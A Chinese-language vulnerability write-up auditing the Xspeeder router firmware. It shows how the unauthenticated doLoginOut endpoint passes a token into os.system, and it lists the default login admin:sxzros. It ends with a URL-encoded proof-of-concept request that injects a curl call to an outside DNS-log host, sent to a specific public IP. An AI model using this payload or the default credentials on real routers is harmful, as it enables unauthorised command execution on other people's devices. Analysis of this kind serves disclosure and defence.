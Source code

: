 ```yaml
---
created: 2024-10-01T07:46:00+00:00
categories:
  - 技术研究
tags:
  - 代码审计
  - RCE
updated: 2023-03-26T00:00:00+00:00
date: 2022-10-11T00:00:00+00:00
slug: xspeeder-dologinout-rce
title: 同迅神行者路由doLoginOut未授权RCE
cover: https://prod-files-secure.s3.us-west-2.amazonaws.com/67fdb170-fbbe-4acc-adb2-bfe5483404bd/f8f0a2c7-bdeb-4712-96bb-6618a6f91ee5/5.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=AKIAT73L2G45HZZMZUHI%2F20241006%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20241006T050157Z&X-Amz-Expires=3600&X-Amz-Signature=60de13e023cbad8f973afcc29494535271f9fd0b68a877db5b8f59290bf87fd8&X-Amz-SignedHeaders=host&x-id=GetObject
id: 112906e1-7468-804d-ae2e-fc3ac4019fbc
---
```


> 引子

    某次HW期间看到该漏洞的利用，遂尝试分析一番。

## 漏洞简介

同迅神行者路由通过系统管理、网络管理、策略管理、监控统计、面板管理五大人机互动管理功能，对流经的所有应用数据进行实时监控与管理。神行者路由流控产品存在未授权命令注入漏洞，攻击者可以利用该漏洞对服务器执行任意命令。

## 固件下载分析

找到厂商官网，下载中心可以直接获取到路由固件包。

![](https://prod-files-secure.s3.us-west-2.amazonaws.com/67fdb170-fbbe-4acc-adb2-bfe5483404bd/25c68db0-4b7c-445a-ae92-ed7aa7560852/2.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=AKIAT73L2G45HZZMZUHI%2F20241006%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20241006T050157Z&X-Amz-Expires=3600&X-Amz-Signature=26ba7ecfbba1bf3bc3937a57d35a87eb971a12aaf177d44c7a3fc6499412733e&X-Amz-SignedHeaders=host&x-id=GetObject)

这里直接对 ISO 相关文件进行解压，发现 Web 目录结构如下，若要尝试搭建可以见官方文档，此外，路由默认账号密码是 admin:sxzros。

![](https://prod-files-secure.s3.us-west-2.amazonaws.com/67fdb170-fbbe-4acc-adb2-bfe5483404bd/bde6d07c-89f9-48a1-866d-a2cb8472a771/4.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=AKIAT73L2G45HZZMZUHI%2F20241006%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20241006T050157Z&X-Amz-Expires=3600&X-Amz-Signature=1ad3d72047401abe743b4b39b79d4c6762ff386b9243564bab293d2eaae3c6d6&X-Amz-SignedHeaders=host&x-id=GetObject)

## Python 代码审计

首先直接查看路由的分配，如下。

```python
# @Filename: urls.py
urlpatterns = [
	url(r'^favicon.ico$',RedirectView.as_view(url=r'static/assets/img/favicon.ico')),
   	#登录
	url(r'^$','xapp.vLogin.index'),
	url(r'^doLogin/$','xapp.vLogin.doLogin'),#登录验证
	url(r'^webInfos/$','xapp.vLogin.webInfos'),#WEB登录信息认证
	url(r'^weixinInfos/$','xapp.vLogin.weixinInfos'),#微信登录验证
	url(r'^index/$','xapp.vLogin.index'),#注销后的返回页面
	url(r'^default/$','xapp.views.default'),#缺省
	url(r'^warning/$','xapp.views.warning'),#到期提醒
	url(r'^edtPwd/$','xapp.views.edtPwd'),#密码修改
	url(r'^doLoginOut/$','xapp.views.doLoginOut'),#退出登录
	url(r'^doSyncConfigToSlave/$','xapp.views.doSyncConfigToSlave'),#主备配置同步
	url(r'^iosweixinLogin/$','xapp.views.iosweixinLogin'),#登录
	#首页
	url(r'^index/index/$','xapp.vIndex.index'),
```

对各个路由对应的方法进行排查，最终发现，在如下代码片段中，`edtPwd`和`doSyncConfigToSlave`方法都需要 token 来鉴权，但`doLoginOut`方法是没有判断 token 的，且这个方法存在`os.system`方法执行系统命令的操作。

进一步分析`doLoginOut`方法，可以判断出这个方法是登出操作，在登录成功时，是会在系统某处写一个 token 文件，而退出就是删除这个 token 文件。

```python
# @Filename: views.py
#修改密码
def edtPwd(request):
	map   = request.GET
	if not 'token' in map  or len(map['token']) != 16:
		return HttpResponseRedirect('/index/')
	spath     = r'/tmpfile/loginfile/'+str(map['token'])
	logindic  = cUtil.getLoginToken(spath)
	……
	return list
#退出
def doLoginOut(request):
	map     = request.GET
	spath   = r'/tmpfile/loginfile/'+str(map['token'])
	delfile = "rm -rf %s"%(spath)
	os.system(delfile)
	return HttpResponse(0)
#主备配置同步
def doSyncConfigToSlave(request):
	map = request.GET
	if not 'token' in map  or len(map['token']) != 16:
		return HttpResponseRedirect('/index/')
	spath     = r'/tmpfile/loginfile/'+str(map['token'])
	……
	return JsonResponse(list,safe=False)
```

## 概念验证步骤

根据如上逻辑，构造一个 POC，如下所示，成功 RCE。

```text
GET /doLoginOut/?token=%31%31%31%26%26%63%75%72%6c%20%31%62%35%65%39%34%35%38%2e%64%6e%73%2e%31%34%33%33%2e%65%75%2e%6f%72%67 HTTP/1.1
Host: 112.93.240.78:4433
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 11_4) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/106.0.5220.146 Safari/537.36 OPR/83.0.4416.120
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
X-Requested-With: XMLHttpRequest
Connection: close

HTTP/1.1 200 OK
Server: nginx
Date: Sun, 09 Oct 2022 10:53:55 GMT
Content-Type: text/html; charset=utf-8
Connection: close
X-Frame-Options: SAMEORIGIN
Content-Length: 1

0
```

![](https://prod-files-secure.s3.us-west-2.amazonaws.com/67fdb170-fbbe-4acc-adb2-bfe5483404bd/c7e63b04-d4b4-4138-ab9b-d0757ffa5d4b/5.png?X-Amz-Algorithm=AWS4-HMAC-SHA256&X-Amz-Content-Sha256=UNSIGNED-PAYLOAD&X-Amz-Credential=AKIAT73L2G45HZZMZUHI%2F20241006%2Fus-west-2%2Fs3%2Faws4_request&X-Amz-Date=20241006T050158Z&X-Amz-Expires=3600&X-Amz-Signature=22bd0feb50ec9ae130caeb1fdc6685693d90ee7325416ff5b7d9e9844eb2c168&X-Amz-SignedHeaders=host&x-id=GetObject)
